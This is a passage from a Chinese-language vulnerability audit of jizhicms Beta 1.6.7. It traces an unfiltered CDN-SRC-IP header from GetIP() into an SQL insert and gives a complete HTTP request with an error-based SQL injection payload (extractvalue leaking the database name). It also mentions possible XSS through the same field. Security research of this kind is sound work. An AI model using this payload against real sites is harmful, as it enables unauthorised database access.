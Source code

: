 ```
    return $ip;
  }
```

`GetIP()`是一个获取用户真实 IP 地址操作，在接入 cdn 的情况下获取真实源 ip 的。第 5 行 ：

```
$ip = $\_SERVER\['HTTP\_CDN\_SRC\_IP'\];
```

$ip 没有进行任何过滤，可以确认 IP 这个参数是可控的。回到整个`index()`函数继续向下走:

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ6juEUFVCyZBbuk8p5Vicjscrt6qh8J4EYWxEJYic3eBhJbxzt6GJBLtqicBD1PibCUvLoMF647aEgoA/640?wx_fmt=png)

第 97 行`$res = M('message')->add($w);`进行了一个 sql 的操作。由于在前面知道前面`GetIP()`函数处获取 IP 的地方过滤不完善，可以自己在请求头部构造一个`CDN-SRC-IP`即可造成 sql 注入。利用方法如下：

```
POST /message/index.html HTTP/1.1
Host: 192.168.0.107
Content-Length: 20
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.107
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.107/msg.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=260dtl37k2itrt42glvgbfshp1
CDN-SRC-IP:2'and extractvalue(1,concat(0x5c,(select database()),0x5c)) and '1'='1
Connection: close

tid=4&user=1&title=1
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ6juEUFVCyZBbuk8p5VicjsSVSgLwuqNSSEGVicX6L7h4vCw0d29Q3Ijia7yR9KyfQ00SpqFdwLdkrA/640?wx_fmt=png)

既然这里参数没有过滤完善，后台如果看得到 ip 地址，那么这里应该也是可以造成 XSS 的。  

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ6juEUFVCyZBbuk8p5Vicjssk3EFO0X9xEucKpicltT5TtNZY95p6iconBoyd9aKIibh4nViaD88PibQ7A/640?wx_fmt=png)

**3\. 第三处注入**
-------------

这个注入点在 jizhicms\_Beta1.6.7\\Home\\c\\UserController.php 下的 release() 函数下：

```
/\*函数代码太长不贴\*/      
```

**函数分析：**  
